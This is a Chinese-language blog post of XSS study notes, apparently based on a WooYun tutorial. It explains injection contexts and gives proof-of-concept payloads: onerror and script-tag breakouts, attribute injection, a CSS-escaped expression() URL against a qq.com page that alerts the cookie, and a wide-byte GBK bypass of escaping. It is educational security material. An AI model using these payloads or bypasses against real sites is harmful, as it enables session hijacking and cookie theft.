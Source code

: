 ```yaml
---
title: XSS学习笔记3
time: 2016.02.03 10:47:00
layout: post
tags:
- 信息安全
- Web
- XSS
excerpt: 学习心伤的瘦子的乌云XSS教程，通过例子，实例学习XSS。
    
---
```

### 0x01无过滤，输出在标签外
XSS的存在，必须涉及输入和输出。

也因此，过滤XSS一般在输入层或输出层过滤

对于没有任何过滤的，我们只要构造恶意代码前，将<,>""闭合即可。

这种漏洞的一般模型：

<HTML标签></HTML标签>

[输出]

<HTML标签></HTML标签>



或

<HTML标签>[输出]</HTML标签>

	payload：
	<img src=1 onerror=alert(1);>
在JS中，若遇到没有过滤的情况：

模型：
	
	<script>...[输出]...</script>

	<style>...[输出]...</script>

一般payload可以为：
	
	/><script>alert(1);</script>
	eval('alert(1)');void
![示例](http://wooyun.org/upload/201212/13142159aee108c1178a955e6f282cf1452a48ee.jpg)

---
### 0x02输出在标签内
比如：
	
	<input value="输出"> 、 <img onload="...[输出]..."> ，<body style="...[输出]..."> 

一种典型的例子就是：

	http://xxxx.com/search.php?word=test
	源码：<input type="text" value="test" />
对于上面的例子，如果没有过滤"，我们就可以构造下面这个payload

	test" onclick="alert(1)"
	输入后，源码变成：
	<input type="text" value="test" onclick＝"alert(1)"/>
这样就能xss
但是，大多数网站会对"进行过滤编码，编码成
	
	&quot;
这样我们先前对利用代码就失效了。

还一种例子是，当输出在
	
	<body style="[here]">
时，如
![image](http://wooyun.org/upload/201212/13152306bb005590e7b2859f5b157234729f5c32.jpg)

此时，就算代码过滤了“，但若其没有过滤\，我们就可以利用css编码＋expression来构造利用语句了。（如e可以编码成\65 \065 \000065）

其源码：

	http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=我是一个兵,爱国爱人民&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qingfengxu6685,zhouzhichen001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipengtx
	
构造后：

	http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=;w:expr\65ssion\28%20eval\28\27\69\66\28\21\77\69\6e\64\6f\77\2e\78\29\7b\61\6c\65\72\74\28\64\6f\63\75\6d\65\6e\74\2e\63\6f\6f\6b\69\65\29\3b\77\69\6e\64\6f\77\2e\78\3d\31\7d\27\29\29&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qingfengxu6685,zhouzhichen001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipengtx

便能成功弹出窗口。（注，现在只能在IE6、7下触发，其他浏览器都修复了这个bug）


还一个典型例子：

	<HTML标签 onXXXX="...[输出在这里].."> 的例子。

	<a href="javascript:[输出在这里]">xxxx </a> 的例子。

这个输出点可以执行js代码，我们一般会构造<script>[输出]</script>。但，若其被过滤，则没有非常好的方法。不过，有时我们可以考虑通过HTML实体编码来绕过。（这个例子具体参考：[link](http://wooyun.org/bugs/wooyun-2010-015963)）

---
### 0x03 宽子节绕过
宽字节一般用于sql注入，这里也可以用来绕过一些XSS过滤器。
宽字节的详细介绍可以参考：[https://www.91ri.org/8611.html](https://www.91ri.org/8611.html)
简略讲就是：对于％df％5c，％5c是\符号，GBK编码，它的编码范围是0x8140~0xFEFE（不包括xx7F），在遇到%df(ascii(223)) >ascii(128)时系统会自动拼接%5c，因此吃掉‘\’，而%27、%20小于ascii(128)的字符就保留了。注意：gb2312是不能吃掉％5c的，即\
具体例子可参考：[link](http://wooyun.org/bugs/wooyun-2010-015969)
### 参考
1. [http://wooyun.org/bugs/wooyun-2010-015959](http://wooyun.org/bugs/wooyun-2010-015959)
2. [http://wooyun.org/whitehats/心伤的瘦子/type/1/page/1](http://wooyun.org/whitehats/心伤的瘦子/type/1/page/1)
3. https://www.91ri.org/8611.html
